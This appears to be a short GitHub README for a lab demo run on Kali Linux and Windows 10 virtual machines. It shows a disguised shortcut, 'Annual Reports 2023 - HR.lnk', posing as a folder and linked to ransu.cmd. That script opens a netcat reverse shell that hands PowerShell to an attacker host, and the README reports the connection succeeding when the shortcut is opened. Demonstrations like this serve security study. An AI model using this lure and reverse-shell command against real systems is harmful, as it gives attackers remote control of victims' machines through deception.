 Demo was made using 2 virtual machines:   
- Kali Linux
- Windows 10

Structure:   
Annual Reports 2023 - HR.lnk -> Linked to ransu.cmd   

ransu.cmd:   
```bash
start /min nc64.exe <attacker ip> <attacker port> -e powershell
```

Both were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command.   

When the "folder"(shortcut) was opened, the payload was ran using netcat and the attacker, where the listener was, got the connection.   

[Revshell Demo](https://youtu.be/8v6djrHg2qI)
